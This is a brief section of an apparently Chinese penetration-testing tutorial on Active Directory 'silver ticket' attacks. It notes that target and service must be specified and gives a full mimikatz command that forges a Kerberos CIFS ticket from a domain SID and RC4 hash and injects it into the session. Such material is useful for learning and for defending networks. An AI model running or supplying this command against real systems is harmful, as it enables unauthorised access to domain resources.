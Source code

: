 ```yaml
---
title: 5.2.2 白银票据的利用
id: zhfly3435
---
```


### 5.2.2 白银票据的利用

在黄金票据中我们可以不指定 target 和 service，但是在白银票据中必须指定 target 和 service

```
mimikatz.exe privilege::debug "kerberos::golden /domain:adtest.com /sid:S-1-5-21- 3418659180-3421952656-1938706522 /target:WIN-9P499QKTLDO.ADTEST.COM /service:cifs /rc4:22eec3fbe7191bdcf1e5819f8bdcd951 /user:aaa /ptt" 
```

![image](../img/aa50b1ed0898ae35ca88d2c452787a9d.png)

![image](../img/3b2b93a6bdecab12f41aec1e69c696bb.png)